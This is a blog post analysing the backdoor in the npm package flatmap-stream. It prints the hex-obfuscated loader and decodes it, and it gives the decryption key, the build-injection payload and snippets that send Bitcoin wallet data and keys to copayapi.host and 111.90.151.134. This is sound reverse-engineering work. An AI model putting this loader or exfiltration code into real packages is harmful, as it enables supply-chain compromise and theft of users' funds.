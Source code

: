 ```yaml
---
title: Reversing flatmap-stream
date: '2019-01-13'
slug: '/reversing-flatmap-stream/'
excerpt: Taking a belated look at the backdoor flatmap-stream package
tags: ['javascript', 'reversing', 'security']
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.

## Prettifying the code

```javascript
!(function() {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, 'hex').toString();
    }

    var n = r(e('2e2f746573742f64617461')),
      o = t[e(n[3])][e(n[4])];

    if (!o) return;

    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));

    var f = new module.constructor();

    (f.paths = module.paths), f[e(n[7])](a, ''), f.exports(n[1]);
  } catch (r) {}
})();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:

```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports = [
  '...truncated...',
  '...truncated...',
  '63727970746f',
  '656e76',
  '6e706d5f7061636b6167655f6465736372697074696f6e',
  '616573323536',
  '6372656174654465636970686572',
  '5f636f6d70696c65',
  '686578',
  '75746638',
];
```

After decoding and unobfuscating the code, we get

```javascript
!(function() {
  try {
    var r = require,
      t = process;
    function decode(r) {
      return Buffer.from(r, 'hex').toString();
    }

    // Get data
    var data = require('./test/data');
    // Get the package description, and exit early if it doesn't exist
    var packageDescription = process.env.npm_package_description;
    if (!packageDescription) {
      return;
    }

    // Decode the first payload with the npm package description
    var u = require('crypto').createDecipher('aes256', packageDescription);
    var firstPayload = u.update(data[0], 'hex', 'utf8');
    firstPayload += u.final('utf8');

    // Build a new module
    var f = new module.constructor();

    // Build a new module with the first and second payloads
    (f.paths = module.paths), f._compile(firstPayload, ''), f.exports(data[1]);
  } catch (r) {}
})();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload

```javascript
module.exports = function(e) {
  try {
    // Exit if specific args aren't in the command line
    if (!/build\\:.*\\-release/.test(process.argv[2])) return;

    // Same npm pack
    var packageDescription = process.env.npm_package_description,
      r = require('fs'),
      i =
        './node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js',
      // Get stats on ReedSolomonDecoder
      // Read file
      n = r.statSync(i),
      c = r.readFileSync(i, 'utf8'),
      // Create another cipher
      o = require('crypto').createDecipher('aes256', packageDescription),
      // Decrypt
      s = o.update(e, 'hex', 'utf8');
    s = '\\n' + (s += o.final('utf8'));

    // Write the payload into ReedSolomonDecoder, and reset utimes
    var a = c.indexOf('\\n/*@@*/');
    0 <= a && (c = c.substr(0, a)),
      r.writeFileSync(i, c + s, 'utf8'),
      r.utimesSync(i, n.atime, n.mtime),
      process.on('exit', function() {
        try {
          r.writeFileSync(i, c, 'utf8'), r.utimesSync(i, n.atime, n.mtime);
        } catch (e) {}
      });
  } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package.

## The second payload

After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n

```javascript
postToUrl('636f7061796170692e686f7374', e, n),
  postToUrl('3131312e39302e3135312e313334', e, n);
```

### Look for wallet files and send the wallet data to hosts above

```javascript
readFromFile('profile', function(e) {
  for (var t in e.credentials) {
    var n = e.credentials[t];
    // If livenet is the network, look in balanceCache files
    'livenet' == n.network &&
      readFromFile(
        'balanceCache-' + n.walletId,
        function(e) {
          var t = this;
          t.balance = parseFloat(e.balance.split(' ')[0]);
          ('btc' == t.coin && t.balance < 100) ||
            ('bch' == t.coin && t.balance < 1e3) ||
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            ((global.CSSMap[t.xPubKey] = !0),
            chunkAndPost('c', JSON.stringify(t)));
        }.bind(n)
      );
  }
});
```

### Extract wallet keys and send to hosts above

```javascript
var e = require('bitcore-wallet-client/lib/credentials.js');
// Extends getKeysFunc to send all the key information
// Also sends xPubKey previously set in the global var, and clears it
(e.prototype.getKeysFunc = e.prototype.getKeys),
  (e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
      global.CSSMap &&
        global.CSSMap[this.xPubKey] &&
        (delete global.CSSMap[this.xPubKey],
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost('p', e + '\\t' + this.xPubKey));
    } catch (e) {}
    return t;
  });
```

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.
